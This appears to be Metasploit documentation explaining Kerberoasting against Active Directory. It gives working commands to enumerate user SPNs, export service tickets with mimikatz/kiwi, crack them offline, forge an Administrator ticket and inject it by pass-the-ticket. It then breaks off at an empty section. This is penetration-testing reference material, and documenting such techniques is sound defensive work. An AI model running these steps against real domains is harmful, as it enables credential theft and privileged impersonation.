 ## Kerberoasting

Kerberoasting is a technique that finds Service Principal Names (SPN) in Active Directory that are associated with
normal user accounts on the domain, and then requesting Ticket Granting Service (TGS) tickets for those accounts from
the KDC. These TGS tickets are encrypted with the Service's password, which may be weak - and susceptible to brute force
attacks.

Services are normally configured to use computer accounts which have very long and secure passwords, but services
associated with normal user accounts will have passwords entered by a human and may be short and weak - and a good
target for brute attacks.

If successful, the attacker possesses user credentials that can be used to impersonate the account owner. Now the attacker
appears to be an approved and legitimate user - having access to the same privileges, assets, systems, etc, that have
been granted to the compromised account, boom roasted.

## Vulnerable Targets

Any system leveraging Kerberos as a means of authentication e.g. Active Directory, MSSQL, which have Service Principal
Names (SPN) associated with normal user accounts on the domain.

## Module usage

1. Start msfconsole
2. Obtain SPNs associated with user accounts from your target
    1. Do: `use auxiliary/gather/ldap_query`
    2. Do: `set action ENUM_USER_SPNS_KERBEROAST`
    3. Run the module and note the discovered SPNs
3. If you have a Meterpreter session want to use mimikatz support:
    1. Do: `load kiwi`
    2. Do: `kerberos_ticket_list`
4. Export service tickets using the kiwi extension
    1. Do: `kiwi_cmd kerberos::list /export`
5. Crack the encryped password in the service ticket using tgsrepcrack.py (more info on this python script below)
    1. Do:  `python3 tgsrepcrack.py passlist.txt 1-40a10000-Administrator@HTTP\~testService-EXAMPLE.COM.kirbi`
6. Rewrite the service tickets using kerberoast.py (more info on this python script below)
    1. Do:  `python3  kerberoast.py -p N0tpassword! -r 1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi -w Administrator.kirbi -u 500`
7. Finally inject the ticket back into RAM using Meterpreter's kiwi extension
    1. `meterpreter > kiwi_cmd kerberos::ptt Administrator.kirbi`

## Scenarios
